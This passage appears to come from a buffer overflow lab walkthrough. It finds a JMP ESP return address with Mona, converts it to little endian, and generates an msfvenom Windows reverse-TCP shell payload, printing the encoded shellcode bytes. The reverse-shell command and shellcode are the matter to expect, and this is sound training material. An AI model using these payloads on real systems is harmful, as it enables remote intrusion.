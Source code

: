 To find the ESP address in memory we look for JMP ESP, which we can think of as "Jump to the ESP register". We use Mona to find this, asking it to only return addresses that exclude our bad characters:

```text
!mona jmp -r esp -cpb "\x00\x07\x2e\xa0"
```

![bofprep-rtn-esp](/assets/images/2021-03-10-21-38-23.png)

The first address is 0x625011af, we have to convert this to Little Endian format to use in our script:

```text
0x625011af <==> \xaf\x11\x50\x62
```

We’ll inject this return address into the EIP, instead of our four B's we used earlier. After overflowing the buffer and reaching the null terminator, it’ll look into the EIP for the address of the next instruction, where it will find the address of ESP. Following this will cause the program to jump back to the ESP, where it will find our payload, execute the code and give us command execution on the system.

Simple!

### MSFVenom Payload

Ok, so we are nearly there. Let's generate our payload using MSFVenom:

```text
root@kali:/home/kali/thm/bofprep# msfvenom -p windows/shell_reverse_tcp LHOST=192.168.0.19 LPORT=1234 -b '\x00\x07\x2e\xa0' EXITFUNC=thread -f python -v payload
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x86 from the payload
Found 11 compatible encoders
Attempting to encode payload with 1 iterations of x86/shikata_ga_nai
x86/shikata_ga_nai succeeded with size 351 (iteration=0)
x86/shikata_ga_nai chosen with final size 351
Payload size: 351 bytes
Final size of python file: 1869 bytes
payload =  b""
payload += b"\xd9\xf7\xd9\x74\x24\xf4\xbe\xd3\x57\x93\xea\x58"
payload += b"\x2b\xc9\xb1\x52\x31\x70\x17\x83\xe8\xfc\x03\xa3"
payload += b"\x44\x71\x1f\xbf\x83\xf7\xe0\x3f\x54\x98\x69\xda"
payload += b"\x65\x98\x0e\xaf\xd6\x28\x44\xfd\xda\xc3\x08\x15"
payload += b"\x68\xa1\x84\x1a\xd9\x0c\xf3\x15\xda\x3d\xc7\x34"
<SNIP>
payload += b"\x0c\xc6\xf4"
```
